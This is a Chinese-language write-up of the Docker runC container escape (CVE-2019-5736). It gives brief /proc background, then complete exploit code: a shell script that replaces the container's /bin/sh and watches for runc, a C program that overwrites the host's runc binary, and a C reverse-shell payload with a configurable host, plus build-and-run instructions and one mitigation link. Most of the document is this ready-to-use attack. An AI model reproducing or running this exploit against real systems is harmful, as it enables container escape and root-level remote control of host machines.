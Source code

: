 # Docker基于runC逃逸漏洞

## 触发条件

容器中的进程以root权限运行。

## proc

系统自动将进程信息挂载到`/proc`。

进程在访问`/proc/self`时，相当于访问`/proc/[pid]`，pid为自己。

- `/proc/[pid]/exe`执行命令的实际路径，可通过该命令拷贝进程。
- `/proc/[pid]/fd`包含该进程打开的每个文件的句柄。

!!! quote
    proc(5): <http://man7.org/linux/man-pages/man5/proc.5.html>

## exploit代码

<https://github.com/feexd/pocs/tree/master/CVE-2019-5736>

Edit HOST inside `payload.c`, compile with `make`. Start `nc` and run `pwn.sh` inside the container.

!!! danger "使用前请备份"
    - 该exploit会修改host上的`/usr/bin/docker-runc`
    - 该exploit会修改容器中的`/bin/sh`

```bash tab="pwn.sh"
#!/bin/bash

function pwn() {
    # 将容器中的/bin/sh篡改为/proc/self/exe并添加可执行权限
    echo '#!/proc/self/exe' > /bin/sh
    chmod +x /bin/sh

    while true; do  # 监听含有runc命令参数的程序启动
        for f in /proc/*/exe; do
            tmp=${f%/*}  # 去掉/exe
            pid=${tmp##*/}  # 去掉/proc/
            cmdline=$(cat /proc/${pid}/cmdline)  # 获取进程命令参数

            if [[ -z ${cmdline} ]] || [[ ${cmdline} == *runc* ]]; then
                echo starting exploit
                ./exploit /proc/${pid}/exe
            fi
        done
    done
}

exec 2>/dev/null
pwn
```

```c tab="exploit.c"
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define PAYLOAD_MAX_SIZE 1048576
#define O_PATH 010000000
#define SELF_FD_FMT "/proc/self/fd/%d"

int main(int argc, char **argv) {
    int fd, ret;
	char *payload, dest[512];

    if (argc < 2) {
        printf("usage: %s FILE\n", argv[0]);
        return 1;
    }

    payload = malloc(PAYLOAD_MAX_SIZE);
    if (payload == NULL) {
        puts("Could not allocate memory for payload.");
        return 2;
    }

    //读取payload文件内容
    FILE *f = fopen("./payload", "r");
    if (f == NULL) {
        puts("Could not read payload file.\n");
        return 3;
    }
    int payload_sz = fread(payload, 1, PAYLOAD_MAX_SIZE, f);

    for (;;) {
        fd = open(argv[1], O_PATH);  //写入到/proc/{pid}/exe
        if (fd >= 0) {
            printf("Successfuly opened %s at fd %d\n", argv[1], fd);
            snprintf(dest, 500, SELF_FD_FMT, fd);
            puts(dest);
            for (int i = 0; i < 9999999; i++) {
                fd = open(dest, O_WRONLY | O_TRUNC);
                if (fd >= 0) {
                    printf("Successfully openned runc binary as WRONLY\n");
                    ret = write(fd, payload, payload_sz);
                    if (ret > 0) printf("Payload deployed\n");
                    break;
                }
            }
            break;
        }
    }
    return 0;
}
```

```c tab="payload.c"
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define HOST "127.0.0.1"
#define PORT 4455

int main (int argc, char **argv) {
  int scktd;
  struct sockaddr_in client;

  client.sin_family = AF_INET;
  client.sin_addr.s_addr = inet_addr(HOST);
  client.sin_port = htons(4455);

  scktd = socket(AF_INET,SOCK_STREAM,0);
  connect(scktd,(struct sockaddr *)&client,sizeof(client));

  dup2(scktd,0); // STDIN
  dup2(scktd,1); // STDOUT
  dup2(scktd,2); // STDERR

  execl("/bin/sh","sh","-i",NULL,NULL);

  return 0;
}
```

## 消减措施

- kubernetes: <https://kubernetes.io/blog/2019/02/11/runc-and-cve-2019-5736/>
